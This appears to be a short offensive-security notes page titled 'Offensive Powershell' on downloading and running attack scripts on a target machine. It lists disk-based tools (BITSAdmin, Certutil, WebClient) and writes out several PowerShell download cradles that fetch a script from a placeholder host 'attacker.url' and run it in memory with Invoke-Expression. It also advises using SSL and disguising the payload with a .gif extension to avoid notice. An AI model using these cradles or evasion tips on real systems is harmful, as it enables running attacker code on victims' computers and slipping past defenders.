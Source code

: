 # Offensive Powershell

## Downloading and Execution

There are two ways dowload to disk and execute or run within powershell memory. The later is preferred.

To use for running within powershell memory:

![new.png](Pictures/a7.png)

Tu run in disk:  
`Net.WebClient DownloadFile method`  
`BITSAdmin.exe`  
`Certutil.exe w/ -urlcache argument`

Both methods are accomplished with help of download cradle.

[System.Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?redirectedfrom=MSDN&view=net-5.0)

The most commond download cradle is "iex": [Invoke-Expression](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.1&viewFallbackFrom=powershell-6)'s alias with [Net.WebClient](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient?redirectedfrom=MSDN&view=net-5.0) class and [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?redirectedfrom=MSDN&view=net-5.0#System_Net_WebClient_DownloadString_System_String_) method.

`iex (New-Object Net.WebClient). ("http:attacker.url/script.ps1")` or from command prompt with following command `powershell.exe iex (New-Object Net.WebClient). ('http:attacker.url/script.ps1')`

**Net WebClient Method**

- `$downloader = New-Object System.Net.WebClient`  
    `$payload = "http://attacker.url/script.ps1"`  
    `$command = $downloader.DownloadString($payload)`  
    `Invoke-Expression $command`  
    or can be oneliner `iex (New-Object Net.WebClient).Downloadstring("https://attacker.url/script.ps1")`

enable ssl whenever possible and also try to change extension something differenyt like gif. The powershell will execute as ps1.
